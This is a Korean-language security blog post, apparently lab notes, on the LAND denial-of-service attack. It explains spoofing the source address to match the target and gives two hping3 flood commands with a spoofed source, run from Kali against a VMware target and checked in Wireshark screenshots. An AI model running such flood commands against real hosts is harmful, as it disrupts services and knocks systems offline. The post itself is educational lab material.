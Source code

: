 ```yaml
---
layout: post
title: LAND Attack
subtitle: 
gh-repo: nohtaeyoung/nohtaeyoung.github.io
gh-badge: [star, fork, follow]
cover-img: /assets/img/security.jpg
tags: [Network Hacking]
comments: true
---
```


{: .box-note}
<b>블로그 내의 모든 예시와 실습은 VMware workstation16.2.3, Kali Linux 2022.03, RED Hat 0.98 version을 활용 합니다.<br></b>

## Land Attack
- 시스템 리소스 공격 -> 메모리 부하, CPU 부하
- Windows95/XP SP2/Server 2003, Linux 2.0.x Kernel 등의 취약점 -> 현재는 공격되지 않는다.

## 공격 원리
- 연결 요청 메시지의 Source를 공격대상의 주소로 변조하여 공격대상에 응답이 전달되게 한다.
- 다량의 공격 패킷을 전달하여 부하를 유발시키는 공격

## 공격
- <b style="color:red">#hping3 -a [공격대상IP] [공격대상IP] --icmp --flood</b>
- <b style="color:red">#hping3 -a [공격대상IP] [공격대상IP] -s 80 -k -p 80 -S-flood</b>

# 첫 번쨰 방법으로 공격

## Target IP 확인

![dhcp spoofing1](../assets/img/land/land1.png)

<br>
## kali 공격 (wire shark 실행 후)

![dhcp spoofing1](../assets/img/land/land2.png)

<br>
## kali에서 wwire shark 확인

![dhcp spoofing1](../assets/img/land/land3.png)

# 두 번쨰 방법으로 공격

## kali 공격 (wire shark 실행 후)

![dhcp spoofing1](../assets/img/land/land4.png)

<br>
## wire shark 확인

![dhcp spoofing1](../assets/img/land/land4.png)


<b>공격이 잘 성공했다.</b>
